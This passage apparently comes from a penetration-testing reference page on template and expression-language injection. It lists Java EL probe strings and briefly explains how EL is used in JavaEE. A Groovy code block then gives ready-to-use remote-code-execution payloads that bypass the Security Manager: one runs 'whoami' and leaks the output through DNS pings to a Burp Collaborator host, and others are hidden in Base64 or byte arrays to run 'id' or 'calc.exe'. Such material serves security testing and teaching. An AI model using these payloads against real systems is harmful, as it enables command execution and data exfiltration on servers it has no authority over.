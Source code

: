 * [https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html](https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html)

### Expression Language - EL (Java)

* `${"aaaa"}` - "aaaa"
* `${99999+1}` - 100000.
* `#{7*7}` - 49
* `${{7*7}}` - 49
* `${{request}}, ${{session}}, {{faceContext}}`

Expression Language (EL) is a fundamental feature that facilitates interaction between the presentation layer (like web pages) and the application logic (like managed beans) in JavaEE. It's used extensively across multiple JavaEE technologies to streamline this communication. The key JavaEE technologies utilizing EL include:

- **JavaServer Faces (JSF)**: Employs EL to bind components in JSF pages to the corresponding backend data and actions.
- **JavaServer Pages (JSP)**: EL is used in JSP for accessing and manipulating data within JSP pages, making it easier to connect page elements to the application data.
- **Contexts and Dependency Injection for Java EE (CDI)**: EL integrates with CDI to allow seamless interaction between the web layer and managed beans, ensuring a more coherent application structure.

Check the following page to learn more about the **exploitation of EL interpreters**:

{% content-ref url="el-expression-language.md" %}
[el-expression-language.md](el-expression-language.md)
{% endcontent-ref %}

### Groovy (Java)

The following Security Manager bypasses were taken from this [**writeup**](https://security.humanativaspa.it/groovy-template-engine-exploitation-notes-from-a-real-case-scenario/).
```java
//Basic Payload
import groovy.*;
@groovy.transform.ASTTest(value={
cmd = "ping cq6qwx76mos92gp9eo7746dmgdm5au.burpcollaborator.net "
assert java.lang.Runtime.getRuntime().exec(cmd.split(" "))
})
def x

//Payload to get output
import groovy.*;
@groovy.transform.ASTTest(value={
cmd = "whoami";
out = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmd.split(" ")).getInputStream()).useDelimiter("\\A").next()
cmd2 = "ping " + out.replaceAll("[^a-zA-Z0-9]","") + ".cq6qwx76mos92gp9eo7746dmgdm5au.burpcollaborator.net";
java.lang.Runtime.getRuntime().exec(cmd2.split(" "))
})
def x

//Other payloads
new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x")
this.evaluate(new String(java.util.Base64.getDecoder().decode("QGdyb292eS50cmFuc2Zvcm0uQVNUVGVzdCh2YWx1ZT17YXNzZXJ0IGphdmEubGFuZy5SdW50aW1lLmdldFJ1bnRpbWUoKS5leGVjKCJpZCIpfSlkZWYgeA==")))
this.evaluate(new String(new byte[]{64, 103, 114, 111, 111, 118, 121, 46, 116, 114, 97, 110, 115, 102, 111, 114, 109, 46, 65, 83, 84, 84, 101, 115, 116, 40, 118, 97, 108, 117, 101, 61, 123, 97, 115, 115, 101, 114, 116, 32, 106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101, 46, 103, 101, 116, 82,117, 110, 116, 105, 109, 101, 40, 41, 46, 101, 120, 101, 99, 40, 34, 105, 100, 34, 41, 125, 41, 100, 101, 102, 32, 120}))
```